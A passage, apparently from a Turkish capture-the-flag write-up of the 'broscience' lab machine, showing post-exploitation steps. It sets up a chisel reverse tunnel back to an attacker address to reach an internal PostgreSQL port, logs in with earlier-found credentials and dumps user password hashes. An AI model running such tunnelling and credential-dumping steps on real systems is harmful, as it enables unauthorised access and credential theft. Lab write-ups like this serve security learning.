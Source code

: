 ```bash
tcp6       0      0 :::443                  :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:36559           0.0.0.0:*                           -                   
udp6       0      0 :::5353                 :::*                                -                   
udp6       0      0 :::51584                :::*                                -
```

Dinlenen portlara baktığımda 5432 üzerinde postgresql’in çalıştığını görüyorum. Sunucu tarafında psql komudu bulunmuyor bu yüzden port forwarding yapacağım.

```bash
kali -> chisel server -p 8000 --reverse

target -> ./chisel client 10.10.14.54:8000 R:54321:127.0.0.1:5432
```

Daha önceden elde ettiğim credentials’ı burada kullanacağım.

```bash
root@acivik:~# psql -U dbuser -W -h localhost -p 54321 -d broscience
Password: 
psql (15.1 (Debian 15.1-1), server 13.9 (Debian 13.9-0+deb11u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

broscience=>
```

```bash
broscience=> \dt
           List of relations
 Schema |   Name    | Type  |  Owner   
--------+-----------+-------+----------
 public | comments  | table | postgres
 public | exercises | table | postgres
 public | users     | table | postgres
(3 rows)

broscience=> select username,password from users;
   username    |             password             
---------------+----------------------------------
 administrator | 15657792073e8a843d4f91fc403454e1
 bill          | 13edad4932da9dbb57d9cd15b66ed104
 michael       | bd3dad50e2d578ecba87d5fa15ca5f85
 john          | a7eed23a7be6fe0d765197b1027453fe
 dmytro        | 5d15340bded5b9395d5d14b9c21bc82b
(5 rows)
```
